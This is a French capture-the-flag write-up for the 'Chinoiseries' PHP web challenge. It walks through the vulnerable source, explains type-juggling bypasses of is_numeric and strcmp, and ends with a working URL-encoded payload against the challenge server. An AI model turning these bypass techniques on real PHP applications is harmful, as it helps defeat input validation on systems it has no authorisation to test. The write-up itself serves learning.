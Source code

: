 # Chinoiseries

## Introduction

**Catégorie** : web

**Points** : 150

**Flager** : PLT

La description de l'épreuve contient une ip avec un port. En chargeant la page, on récupère un code php.

```zsh
curl 148.60.87.243 44815
```

```php
<?php

    show_source(__FILE__);
    $i01=0;$i02=0;$i03=0;
    $a=(array)json_decode(@$_GET['kaaris']);
    if(is_array($a)){
       is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
       if(@$a["Jte_laisse_tirer_sur_ma_chicha"]){
           ($a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
       }
       if(is_array(@$a["et_tu_veux_plus_me_rendre_le_tuyau"])){
           if(count($a["et_tu_veux_plus_me_rendre_le_tuyau"])!==7 OR !is_array($a["et_tu_veux_plus_me_rendre_le_tuyau"][0])) die("brrrrah");
           $pos = array_search("Diarabi, diarabi, diarabi, ma chérie", $a["a2"]);
           $pos===false?die("brrrrah"):NULL;
           foreach($a["et_tu_veux_plus_me_rendre_le_tuyau"] as $key=>$val){
               $val==="Diarabi, diarabi, diarabi, ma chérie"?die("brrrrah"):NULL;
           }
           $i02=1;
       }
    }
    $c=@$_GET['meufs'];
    $d=@$_GET['seufs'];
    if(@$c[1]){
       if(!strcmp($c[1],$d) && $c[1]!==$d){
           eregi("3|1|c",$d.$c[0])?die("brrrrah"):NULL;
           strpos(($c[0].$d), "Diarabi, diarabi, faut qu'on fasse du wari")?$i03=1:NULL;
       }
    }
    if($i01 && $i02 && $i03){
       include "flag.php";
       echo $FL4G;
    }

?>
```

## Analyse

La première ligne `show_source(__FILE__);` permet de comprendre que le code php affiché correspond au script PHP qui s'exécute sur le serveur.

A la fin du fichier, on peut voir qu'il faut passer les variables `$i01`, `$i02` et `$i03` à *true* pour que le fichier `flag.php` s'exécute et affiche le *flag*.

```php
if($i01 && $i02 && $i03){
       include "flag.php";
       echo $FL4G;
}
```

En analysant le code, on remarque des lignes qui semblent en contradiction :

```php
is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
//...
$a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
```

Ici, la valeur de `$a["Jte_laisse_tirer_sur_ma_chicha"]` ne doit pas être numérique mais doit pourtant être supérieure à `2017`. [Chinoiserie](http://www.larousse.fr/dictionnaires/francais/chinoiserie/15393)
 vous avez dit ?

On imagine donc qu'il faut abuser la façon dont PHP interprète les différents types. On appelle cette pratique "manipulation de types" ou plus communément *type juggling*. 

Voici un document qui détail bien les différents techniques de *type juggling* :

 - [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf)

### Environnement

 - Langage : PHP 7.1
 - IDE : Brackets (MacOS) + extension [PHP Debugger](https://github.com/spocke/php-debugger)
 - Debuger : Xdebug
 - Serveur : Nginx

### Xdebug

Dans ce genre d'épreuve, il est important de passer un peu de temps à configurer un debuger avant de se lancer. Cela évite d'avancerà l'aveugle et vous donne une maitrise totale de l'exécution. 

`xdebug` est un *debugger* PHP. Pour vérifier que xdebug est bien installé : `php -m | grep xdebug`

Pour lancer le script en mode debug depuis la ligne de commande :
```console
php -d xdebug.idekey=xdebug -d xdebug.profiler_enable=On \
-d xdebug.remote_enable=On -d xdebug.remote_autostart=On \
-d xdebug.autostart=On -d xdebug.remote_port=9000
```

Il est également possible de configurer un environnement web local avec Apache ou Nginx. Il faut alors activer et paramétrer `xdebug` dans les fichiers de configuration PHP.

Comme client Xdebug sur MacOS, je conseille l'éditeur de texte Brackets avec l'extention [PHP Debugger](https://github.com/spocke/php-debugger).


![chinoiseries-xdebug-brackets.png](./chinoiseries-xdebug-brackets.png)

## Solution

### $i01 et $i02

Les paramètres pour manipuler `$i01` et `$i02` viennent de `$_GET['kaaris']` qui doit contenir un JSON.

La difficulté pour avoir la variable `$i01` à `true` est qu'il faut valider deux conditions antagonistes :

```php
is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
```

```php
$a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
```

Une valeur possible est `"2018m"`.

`is_numeric` considère que `"2018m"` n'est pas une valeur numérique.
>http://php.net/manual/fr/function.is-numeric.php
> 
>Détermine si la variable donnée est de type numérique. Les chaînes numériques sont composées optionnellement de signes, de n'importe quel nombre de chiffres, optionnellement d'une partie décimale ainsi qu'une partie exponentielle. +0123.45e6 est une valeur numérique valide. Les notations hexadécimales (i.e. 0xf4c3b00c) et binaires (i.e. 0b10100111001) ne sont pas autorisées.

Quand une chaine de caractère est comparé à un type numérique, PHP utilise la fonction `intval` pour l'évaluer. Or, `intval("2018m")` retourne `2018`

(voir [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf) page 8 et 9)

Pas de difficulté particulière ensuite.

### $i03

La difficulté pour avoir $i03 à `true` est de passer cette condition
`if(!strcmp($c[1],$d) && $c[1]!==$d)`

Ma première approche fut d'utiliser `$c[1]=1` et `$d='1'` ce qui marchait bien. Sauf que `1` passé en paramètre dans l'url ne donne pas un entier mais un string. Donc on se retrouve finalement avec `$c[1]='1'` et `$d='1'`.

Pour passer cette condition, il faut que `$d` soit un tableau : `http://148.60.87.243:44815/?seufs[]=&...`

(voir [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf) page 35). 

### Payload finale

Il faut que les paramètres soient bien url-encodés.

```
http://148.60.87.243:44815/?seufs[]=&meufs[]=_Diarabi%2c%20diarabi%2c%20faut%20qu%27on%20fasse%20du%20wari&meufs[]=a&kaaris={%22Jte_laisse_tirer_sur_ma_chicha%22%3a%222018a%22%2c%22et_tu_veux_plus_me_rendre_le_tuyau%22%3a[[]%2c2%2c3%2c4%2c5%2c6%2c7]}
```

## Bilan

 - Peu d'inconnues dans cette épreuve car le code source est visible.
 - Necessite d'avoir une environnement PHP avec un serveur local ou de bien connaitre les finesses du *type juggling* PHP.


